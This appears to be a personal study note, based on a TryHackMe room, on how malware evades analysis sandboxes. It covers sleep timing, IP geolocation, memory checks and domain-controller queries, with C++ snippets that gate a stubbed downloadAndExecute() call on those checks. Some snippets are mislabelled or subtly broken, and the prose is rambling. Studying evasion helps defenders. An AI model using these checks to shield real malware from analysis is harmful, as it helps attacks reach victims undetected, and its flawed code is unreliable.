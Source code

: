 # Sandbox Evasion

## Introduction

Sandboxes allow Malware Analysts to perform Dynamic Analysis that is more representative of the actual execution chain of a piece of malware by creating of safe and containize or virtualise environment for the malware to operate in to then monitor it. Sandboxes within network meaning that any unsafe or suspicious file run simulatively without causing harm before it is run on a production system. Evasion therefore is imperative for the success of a strain malware as it must preemptively defend against dynamic analysis. 

As with all infinite Malware Developer Vs Analyst escalation of complexity this article will almost certainly become outdated and probably from my limit time to research it is already outdated. The key lesson to take away from any known knowns and general systemic presuppositions about how both parties exist and their objectives is:

**This next statement(s) is just a rough splattering of what I am trying to state here and will be edited to make it less of a ramble or philosophical skid mark** - just a note for me and warning to others.
1. Meta-ness of contexts of how either Developer or Analyst use the knowable finite architecture, code, etc no matter how effective, each party continues to seek and utilise (meta/assumptive)-information about the other the evade the other to execute their goals.  

Throughout the article I try to reveal a three step 1. Malware does `X` due to Sandbox have `A` property, Blue team will do `Y` and Malware Developer could then do `Z`. This is just to replicate the esculative effect of adversarial relationships with  opposing, but symbiotic objectives. No malware means no  analysis to be done. There will always be malware therefore there will always be analyst to help defend against it, which means there will always be a escalation of capability.

## Sleeping through Sandboxes

Sandboxes are limited to time constraints to prevent overallocation of network resources. Implementing a sleep timer that waits.

1. Query the system time in a parallel thread.
2. Do compute heavy maths that will take certain amount of time.

**Mitigations** - Sandboxes may alter the system clocks, built-in sleep functions 

**Therefore** - Develop your own unique sleep function code that won't have a signature on.

[evasions.checkpoint.com](https://evasions.checkpoint.com/techniques/timing.html)
[joesecurity](https://www.joesecurity.org/blog/660946897093663167#)

## Geolocation

Sandboxes can be virtualise and therefore be located off-site and hosted by Anti-Virus Providers. If target company is `X` county but Malware is beaconing back from `Y` country, even if company is globally networked it would make little sense to not regionalise Sandboxing to allow more Malware Analysis to occur.

1. Geolocation filter, checks IP address block of target company is the same as located
	1. [ifconfig.me](https://ifconfig.me) - Retrieve current IP
	2. [https://rdap.arin.net/registry/ip/1.1.1.1](https://rdap.arin.net/registry/ip/1.1.1.1) - detirmine the ISP returned in json 

**Mitigations** - No internet for Malware

## Check System information
The system that is used for sandboxing will has characteristics of paid solutions and often reduced compute capacity as it used to quarantine malware for inspection.

**NOT AN EXHAUSTIVE LIST**
-   Storage Medium Serial Number
-   PC Hostname
-   BIOS/UEFI Version/Serial Number
-   Windows Product Key/OS Version
-   Network Adapter Information
-   Virtualization Checks
-   Current Signed in User

## Querying Network Objects
Almost no Malware Sandbox is domain joined for obvious reasons, or maybe static unretrievable dummy domain information 


## Example Code

#### Sleeping Through Sandbox
```cpp


int main() {
    if (isDomainController == TRUE) {
        downloadAndExecute();
    } else {
        cout << "Domain Controller Not Found!";
    }
} 

```


#### Geolocating Filter
```cpp
BOOL checkIP() {   
 // Declare the Website URL that we would like to vicit
    const char* websiteURL = "<https://ifconfig.me/ip>";   
 // Create an Internet Stream to access the website
    IStream* stream;   
 // Create a string variable where we will store the string data received from the website
    string s;   
  // Create a space in memory where we will store our IP Address
    char buff[35];   
    unsigned long bytesRead;   
 // Open an Internet stream to the remote website
    URLOpenBlockingStreamA(0, websiteURL, &stream, 0, 0);   
 // While data is being sent from the webserver, write it to memory
    while (true) {       
        stream->Read(buff, 35, &bytesRead);       
        if (0U == bytesRead) {           
            break;       
        }       
        s.append(buff, bytesRead);   
    }   
  // Compare if the string is equal to the targeted victim's IP. If true, return the check is successful. Else, fail the check.
    if (s == "VICTIM_IP") {       
        return TRUE;   
    }   
    else {       
    return FALSE;   
    }
} 

int main(){
    if(checkIP() == TRUE){
        downloadAndExecute();
        return 0;
    }
    else {
        cout << "HTTP/418 - I'm a Teapot!";
        return 0;
    }
} 

```

#### Checking System Memory 
```cpp

#include <iostream>
#include <Windows.h>
using namespace std;
int main() {
// Declare the MEMORYSTATUSEX Struct    
   MEMORYSTATUSEX statex;
// Set the length of the struct to the size of the struct    
   statex.dwLength = sizeof(statex);
// Invoke the GlobalMemoryStatusEx Windows API to get the current memory info    
   GlobalMemoryStatusEx(&statex);
// Print the physical memory installed on the system    
   cout << "There is " << statex.ullTotalPhys/1024/1024/1024 << "GiB of memory on the system.";
} 

BOOL memoryCheck() {
// This function will check and see if the system has 5+GB of RAM
// Declare the MEMORYSTATUSEX Struct    
    MEMORYSTATUSEX statex;
// Set the length of the struct to the size of the struct    
    statex.dwLength = sizeof(statex);
// Invoke the GlobalMemoryStatusEx Windows API to get the current memory info    
    GlobalMemoryStatusEx(&statex);
// Checks if the System Memory is greater than 5.00GB    
    if (statex.ullTotalPhys / 1024 / 1024 / 1024 >= 5.00) {        
       return TRUE;    
    } else {        
       return FALSE;
    }
}

int main() {
// Evaluates if the installed RAM amount is greater than 5.00 GB,
//if true download Shellcode, if false, exit the program.    
if (memoryCheck() == TRUE) {        
    downloadAndExecute();    
    } else {        
       exit;    
    }
return 0;
} 
```

#### Network Querying
```cpp
BOOL isDomainController(){
// Create a long pointer to Wide String for our DC Name to live in
    LPCWSTR dcName;  
// Query the NetGetDCName Win32 API for the Domain Controller Name
    NetGetDCName(NULL, NULL, (LPBYTE *) &dcName);
// Convert the DCName from a Wide String to a String
    wstring ws(dcName);
    string dcNewName(ws.begin(), ws.end());
// Search if the UNC path is referenced in the dcNewName variable. If so, there is likely a Domain Controller present in the environment. If this is true, pass the check, else, fail.
    if ( dcNewName.find("\\\\"){
          return TRUE;
    } else {
          return FALSE;
    }
} 
		
int main() {
    if (isDomainController == TRUE) {
        downloadAndExecute();
    } else {
        cout << "Domain Controller Not Found!";
    }
} 

```

## References

[THM Sandbox Evasion Room](https://tryhackme.com/room/sandboxevasion)